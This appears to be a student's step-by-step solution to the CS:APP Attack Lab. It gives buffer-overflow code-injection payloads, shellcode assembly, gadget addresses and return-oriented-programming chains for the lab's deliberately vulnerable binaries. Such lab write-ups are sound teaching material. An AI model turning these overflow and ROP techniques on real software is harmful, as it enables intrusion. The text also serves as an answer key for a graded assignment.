

# Solving Attack Lab Step by Step

## Part I: Code Injection Attacks

### Level 1

Easy to find that BUFFER_SIZE = 40.

When calling a function, the `callq` instruction leads to pushing the addr of next instruction of caller into stack. When function is finished and reach the `retq` instruction, it will retrieve the top of the stack to get the caller's next instruction addr and jump to it. So our purpose is to overwrite that addr to make instruction flow redirect to `touch1()` function.

Below lies the entry point addr of *touch* functions:

touch1() addr --> 00000000004017c0

touch2() addr --> 00000000004017ec

touch3() addr --> 00000000004018fa

Make a new file called `ctarget_1.txt` and its contents shown below:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

Use the cmd below to pass it to the hex2raw so that we can get the binary input to the `ctarget` program:

```shell
./hex2raw < ctarget_1.txt | ./ctarget -q
```

> -q parameter for run this program locally instead of using server, since self-study student has no server for this.


### Level 2

We need to think up some code for pushing entry point of `touch2()` into stack so that we can  `return` and get to it. To execute our code, we shall use method of solving Level 1, to overwrite the addr to the entry of our code.

Since there's a 40-byte length array, we can make full use of it to contain our assembly code as below (ctarget_2.s file):

```assembly
pushq $0x4017ec				# entry point of touch2()
movq $0x59b997fa, %rdi		# cookie
ret
```

Use gdb and set a breakpoint within `getbuf` function, it is easy to find that the beginning addr of buf array is `0x5561dc78`.

Use cmds below to assemble the code and disassemble it to get the encoded instruction bytecode:

```shell
gcc -c ctarget_2.s
objdump -d ctarget_2.o > ctarget_2.d
```

Content of ctarget_2.d:

```assembly
ctarget_2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```

So the input file ctarget_2.txt should be:

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```


### Level 3

Put the string representation of cookie "0x59b997fa" at an address. To prevent it from overwriting by stack allocation through calling functions, we should put it at`getbuf()` caller's stack space, which is `test()`'s stack space. It is easy to get the the addr through breakpoint: `0x5561dca8`.

Translate the string "59b997fa" into ascii we have:

```
35 39 62 39 39 37 66 61 00
```

The 00 represents the terminator of the string.

The code we use is similar to Level 2, the only difference is the addr we moved to `%rdi`:

```assembly
mov $0x5561dca8, %rdi	# addr of cookie's string representation
push $0x4018fa			# entry point of touch3()
retq
```

Content of ctarget_3.d:

```assembly
ctarget_3.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

So the input file ctarget_2.txt should be:

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```


## Part II: Return-Oriented Programming

### Level 2

According to the advice, we need 2 gadgets for our task. Before we look for them, we inspect our asm code of Phase 2:

```assembly
pushq $0x4017ec				# entry point of touch2()
movq $0x59b997fa, %rdi		# cookie
ret
```

The key is to move the cookie value into some register. From the third advice, we can try to insert the value in the stack and pop it to some register, and then move from this register to `%rdi`. After that we shall meet `ret`, then just put the `0x4017ec` in the stack, then everything will work as expected.

From gadgets farm, we find two useful function gadgets:



58 --> `popq %rax`

After that, it does "90" which is `nop` and then `retq`.

48 89 c6 --> `movq %rax, %rdi`, some like before it does `nop` then `retq`.

So here is our input:

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00		/* addr of "popq %rax" */
fa 97 b9 59 00 00 00 00		/* cookie value used for "popq %rax" */
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi" */
ec 17 40 00 00 00 00 00		/* entry addr of touch2() */
```

> comment must be deleted when passed through hex2raw


### Level 3

First we inspect the asm code from Phase 3:

```assembly
mov $0x5561dca8, %rdi	# addr of cookie's string representation
push $0x4018fa			# entry point of touch3()
retq
```

Obviously, the key is to construct the addr leading to cookie's string representation. This string representation must be stored at the stack space above the `touch3()`, otherwise it will be overwritten. To targeting this addr, we need to add some offset to the `%rsp`. So we need 2 values be added and we can control these two values. From the farm we find this gadget satisfy our demand:

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq  
```

It means `%rax = %rdi + %rsi`. We can put `%rsp` in either of them and put offset in the other one.

1. mov `%rsp` into some register. From the farm we know that only `%rax` as target is possible. 

   `mov %rsp, %rax` --> 48 89 e0 -->`addval_190`(0x401a03+3=0x401a06) or `setval_350`(0x401aab+2=0x401aad).

2. `mov %rax, %rdi`.
3. `popq %rax`.
4. `movl %eax, %edx`  --> 89 c2 --> `getval_481`(0x4019db+2=0x4019dd).
5. `movl %edx, %ecx` --> 89 d1 --> `getval_159`(0x401a33+1=0x401a34) or `getval_311`(0x401a68+1=0x401a69).
6. `movl %ecx, %esi` --> 89 ce --> `addval_436`(0x401a11+2=0x401a13) or `addval_187`(0x401a25+2=0x401a27).
7. `lea (%rdi,%rsi,1), %rax` --> `add_xy`(0x4019d6).
8. `mov %rax, %rdi`.

Input as below:

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00		/* addr of "mov %rsp, %rax"
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi", we get %rsp at here */
cc 19 40 00 00 00 00 00		/* addr of "popq %rax" */
48 00 00 00 00 00 00 00		/* offset = 0x48 for "popq %rax" */
dd 19 40 00 00 00 00 00		/* addr of "movl %eax, %edx" */
34 1a 40 00 00 00 00 00		/* addr of "movl %edx, %ecx" */
13 1a 40 00 00 00 00 00		/* addr of "movl %ecx, %esi" */
d6 19 40 00 00 00 00 00		/* addr of "lea (%rdi,%rsi,1), %rax" */
c5 19 40 00 00 00 00 00		/* addr of "mov %rax, %rdi" */
fa 18 40 00 00 00 00 00		/* entry addr of touch3() */
35 39 62 39 39 37 66 61		/* cookie string representation */
00
```

> comment must be deleted when passed through hex2raw
